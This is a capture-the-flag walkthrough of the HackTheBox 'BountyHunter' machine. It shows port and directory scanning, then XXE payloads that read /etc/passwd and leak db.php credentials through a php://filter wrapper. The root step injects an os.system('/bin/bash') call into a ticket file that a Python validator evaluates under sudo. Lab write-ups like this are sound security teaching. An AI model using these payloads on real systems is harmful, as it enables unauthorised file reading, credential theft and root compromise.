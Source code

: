 # BountyHunter

![image](https://github.com/sec-fortress/sec-fortress.github.io/assets/132317714/d25dc96a-ce52-42c5-a472-d9d38377b5df)

## Difficulty = Easy
--- 
First of all we run our nmap scan

```sh
# Nmap 7.94 scan initiated Thu Aug 10 12:10:16 2023 as: nmap -p- -sCV --min-rate=1000 -oN nmap.txt -v 10.10.11.100
Increasing send delay for 10.10.11.100 from 40 to 80 due to 87 out of 289 dropped probes since last increase.
Warning: 10.10.11.100 giving up on port because retransmission cap hit (10).
Increasing send delay for 10.10.11.100 from 640 to 1000 due to 79 out of 262 dropped probes since last increase.
Nmap scan report for 10.10.11.100
Host is up (0.23s latency).
Not shown: 45138 closed tcp ports (conn-refused), 20395 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 d4:4c:f5:79:9a:79:a3:b0:f1:66:25:52:c9:53:1f:e1 (RSA)
|   256 a2:1e:67:61:8d:2f:7a:37:a7:ba:3b:51:08:e8:89:a6 (ECDSA)
|_  256 a5:75:16:d9:69:58:50:4a:14:11:7a:42:c1:b6:23:44 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-favicon: Unknown favicon MD5: 556F31ACD686989B1AFCF382C05846AA
|_http-title: Bounty Hunters
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Aug 10 12:16:07 2023 -- 1 IP address (1 host up) scanned in 351.09 seconds
```

- Navigating to
![](https://i.imgur.com/1OaNCsp.png)
 port 80 - http, gives us a website

![](https://i.imgur.com/no9CW9K.png)

- viewing source doesn't seems to have anything much except from a few clues to test out vulnerabilities on the website with a security tool called `Burp Suite`

![](https://i.imgur.com/ZpmMhil.png)

- Also clicking portal on the web page :

![](https://i.imgur.com/DsP1Zwf.png)

- Takes us here

![](https://i.imgur.com/aDAzybh.png)

- But after clicking `Go here` on the web page we get another web page, which looks like a **Bounty Report System** (Trust me, shit doesn't work)

![](https://i.imgur.com/6FHV1Eg.png)

- Fired up Burp suite and after numerous test, i noticed that this page is vulnerable to `XXE injection`

![](https://i.imgur.com/5vSbY1h.png)

*payload :*

```xml
<!--?xml version="1.0" ?-->
<!DOCTYPE foo [<!ENTITY example SYSTEM "/etc/passwd"> ]>
<data>&example;</data>
```

- Just to be sure we are doing the right thing, Directory Bruteforce:

```sh
sec-fortress@Pwn-F0rk-3X3C:~/HTB/BountyHunter$ gobuster dir -u http://10.10.11.100/ -w ~/SecLists-master/Discovery/Web-Content/big.txt -b 401,400,400,501,402,404,403 -x bak,zip,php,PHP,txt,html -t 40 2>/dev/null                         
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.11.100/
[+] Method:                  GET
[+] Threads:                 40
[+] Wordlist:                /home/sec-fortress/SecLists-master/Discovery/Web-Content/big.txt
[+] Negative Status codes:   404,403,401,400,501,402
[+] User Agent:              gobuster/3.5
[+] Extensions:              php,PHP,txt,html,bak,zip
[+] Timeout:                 10s
===============================================================
2023/08/10 12:29:18 Starting gobuster in directory enumeration mode
===============================================================
/assets               (Status: 301) [Size: 313] [--> http://10.10.11.100/assets/]
/css                  (Status: 301) [Size: 310] [--> http://10.10.11.100/css/]
/db.php               (Status: 200) [Size: 0]
/index.php            (Status: 200) [Size: 25169]
/js                   (Status: 301) [Size: 309] [--> http://10.10.11.100/js/]
/portal.php           (Status: 200) [Size: 125]
/resources            (Status: 301) [Size: 316] [--> http://10.10.11.100/resources/]

===============================================================
2023/08/10 12:52:54 Finished
===============================================================
```

- Yeah, definitely we can read files on the server, Now we need one more important file, maybe some file containing stored ssh creds
- After much Enumeration i decided to check each and every directory from our scan with gobuster, i found out db.php contains an empty page, why?? 🤔

![](https://i.imgur.com/7ifOLcR.png)

- After much reading, there is a way to print out content of php files through XXE injection using a php wrapper (*php://filter/convert.base64-encode/resource=file.php*), you can read more on it from [here](https://www.pwny.cc/web-attacks/xml-external-entity-xxe)
- Doing this to our target, gives us a base 64 encoded text

![](https://i.imgur.com/xziDR8I.png)

*payload :*
```xml
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY example SYSTEM "php://filter/convert.base64-encode/resource=db.php"> ]>
<data>&example;</data>
```

Looks like we got a password, let try it out on SSH with the user `development`

![](https://i.imgur.com/Hzjzo1J.png)

- It works :

![](https://i.imgur.com/bO2cZci.png)

### Privilege Escalation

> Since we have gotten shell as a normal user in the default home directory, let escalate privileges 😀

- First of all i ran `sudo -l` to confirm if there are executables/binaries we can run with sudo

![](https://i.imgur.com/pDz1CSj.png)

- There is, looks like a ticket validator, let see what we can do with it 

![](https://i.imgur.com/RbsFNYp.png)

Just a python file that validates ticket 🤔, let us read source-code

![](https://i.imgur.com/kYRmVgn.png)

- hmmmmmm, here is what i think :
	1. When it prompts us for a ticket file, we need to specify a file with a markdown format
	2. Once this is validated, it opens the file and check if the first line has > `# Skytrain Inc`
	3. Also checks if the second line has > `## Ticket to `
	4. It then looks for a line with numbers that add up to each other greater than 100

- i decided to change to the `/opt/skytrain_inc/invalid_tickets` folder and saw sample code

![](https://i.imgur.com/7ezkild.png)

- since we are not able to to write to this file, i created a sample and directed it to /tmp and named it `segun.py`, then gave it `777` permmissions

![](https://i.imgur.com/k7CLY9G.png)

- i edited the file and changed it from this :

```md
# Skytrain Inc
## Ticket to New Haven
__Ticket Code:__
**31+410+86**
##Issued: 2021/04/06
#End Ticket
```

To this:

```md
# Skytrain Inc
## Ticket to New Haven
__Ticket Code:__
**18 + __import__('os').system('/bin/bash')**
##Issued: 2021/04/06
#End Ticket
```

- ... and we got Root, Bankkaaaaiii 🎎

![](https://i.imgur.com/HZ8A2nZ.png)

